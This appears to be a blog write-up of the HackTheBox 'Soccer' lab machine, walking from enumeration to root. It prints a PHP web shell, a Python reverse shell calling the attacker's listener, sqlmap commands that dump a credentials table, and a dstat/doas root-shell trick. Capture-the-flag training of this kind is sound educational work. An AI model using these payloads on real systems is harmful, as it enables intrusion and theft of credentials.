

[Easy] Soccer

Full compromise on April 16, 2023Written on March 18, 2024
Soccer is my eighth machine to compromise on HackTheBox. This Linux machine features a file upload web application with default credentials, foothold via uploading a PHP web shell, SQL injection, and a binary that can be run as root via doas.
Enumeration
Nmap
Let's start with an Nmap scan.
nmap 10.10.11.194 -p- --min-rate=5000Ports 22, 80, and 9091 are open. Let's use Nmap scripts to get more information from those ports.
nmap 10.10.11.194 -p22,80,9091 -sC -sV --min-rate=3000Port 22 is running OpenSSH 8.2p1, port 80 is running nginx 1.18.0, and port 9091 is something different. It is unclear what port 9091 could be. Let's first start with port 80.
Port 80 - TCP
Navigating to http://10.10.11.194, we encounter an error. This is because the website is redirecting us to http://soccer.htb, but our machine does not know the IP address of soccer.htb.

To fix this, we configure out /etc/hosts file to map soccer.htb to 10.10.11.194.
echo "10.10.11.194" soccer.htb | sudo tee -a /etc/hostscat /etc/hostsNow we can browse http://soccer.htb. We are presented with the HTB FootBall Club page.
On the website, there isn't much to click on. I then fuzzed for any possible directories and found one directory named tiny.
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://soccer.htb/FUZZNavigating to http://soccer.htb/tiny brings us a login page to Tiny File Manager.
A quick Google search for default credentials shows us a username and password that could work.
It works. We are logged in.
Foothold to www-data
Poking around, it seems we can upload files here. The file manager is using PHP which means we could possibly upload a PHP web shell to get RCE.
For my web shell, I uploaded the following PHP file:
<?php system($_GET['cmd']); ?>The upload succeeds. We can see our file uploaded. If we click on our uploaded file, we are given the option to open it.
Opening our file and appending ?cmd=id to the end of the url confirms RCE, as the target machine executed the id command.
Next we'll get a reverse shell on the target. We'll first set up our listener on our machine.
nc -lvnp 4444Then we'll use the web shell to execute Python code to send a reverse shell to our listener. We used the following payload from revshells.com:
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'Our listener received the reverse shell. We're in the target machine.
Enumerating the file system, there is another existing user named "player".
Unfortunately, the user.txt flag is not readable with our current user.
Seeing what ports are open, there are pretty interesting ones open locally. Ports 3306 indicate a possible MySQL instance, and port 3000 can be worth investigating as it is unusual.
netstat -anoIf we curl localhost on port 3000, we get a response which looks like a website. Looking closely, it's the same website as port 80 but this time it has a login page.
curl localhost:3000My first instinct was to use proxychains to visit the internal website directly from my attack machine, but I decided to enumerate the file system for the config files. By looking around, we find that the website is running Nginx and has two site files in /etc/nginx/sites-enabled.
The file named default contains configurations for the soccer.htb on port 80. There's nothing of interest. However, on the file named soc-player.soccer.htb, we can see it is configured to listen on the same port but on a different subdomain. Then it will forward all requests to http://localhost:3000.
We'll add soc-player.htb to our /etc/hosts file.
echo "10.10.11.194" soc-player.soccer.htb | sudo tee -a /etc/hostscat /etc/hostsNavigating to http://soc-player.soccer.htb, we're able to see the hidden website.

There is a login option but our known credentials don't work. We can create an account instead.
Upon logging in, we are faced with interface with a single input box.
Exploit - SQL Injection to player
This interface tells us whether a ticket with the inputted ID exists or not. This could be either command injection or SQL injection. I first tried with a single quotation mark, but that didn't work. The interface behaved expectedly and told us "Ticket doesn't exist". After some playing around, I noticed that the interface is asking for an ID, which is an integer. In an SQL statement, integers don't need quotation marks. Most SQL injection tutorials will tell you to put a single quotation mark to end the app's SQL statement so you can input your own arbitrary SQL statement, but this is not the case. If I were to input the following, then it evaluates as True and shows that the ticket exists, even though it clearly doesn't.
123 or 1=1This means we have a SQL injection vulnerability. Let's use sqlmap to automate this.
Normally I would use Burpsuite to intercept the request, copy it entirely, and paste it to a text file for sqlmap to process. When intercepting this request, I noticed it was a WebSockets message to port 9091.
This does not take any authentication or cookies. The WebSocket on port 9091 will process all requests as long as they have the "id" key in JSON format. We can simply tell sqlmap to start testing on ws://soc-player.soccer.htb:9091 and test the value for "id". Sqlmap does find a time-based SQL injection vulnerability.
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"test"}'Time-based injections are too slow to extract data. If we increase the level and risk, we find a boolean-based injection vulnerability which is much faster.
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"test"}' --level 5 --risk 3Now I'll extract all database names.
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"test"}' --dbsThe soccer_db database is interesting. Let's extract the table names.
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"test"}' -D soccer_db --tablesOnly one table named accounts. Interesting. Let's see what data is inside.
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"test"}' -D soccer_db -T account --dumpIt looks like it's the password for the user "player". We can SSH into the target machine as "player" to verify.
ssh player@10.10.11.194PlayerOftheMatch2022We got user flag.
Privilege Escalation to root
Following typical enumeration for possible privilege escalation (I try not to use linpeas), we find an unusual SUID binary: doas.
find / -perm -4000 -type f 2>/dev/nullThe binary doas is similar to sudo. It's pretty much its name: "do X (thing) as Y (user)". The usual path for doas.conf is /etc/doas.conf but it's not there. With some looking around, it's at /usr/local/etc/doas.conf
The file doas.conf tells us that user player is allowed to run /usr/bin/dstat as root. Searching the binary dstat on GTFObins, we can see how we can take advantage of this and get root.
Modifying the command to fit our situation, we're able to spawn a root shell and get the root flag.
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.pydoas /usr/bin/dstat --xxx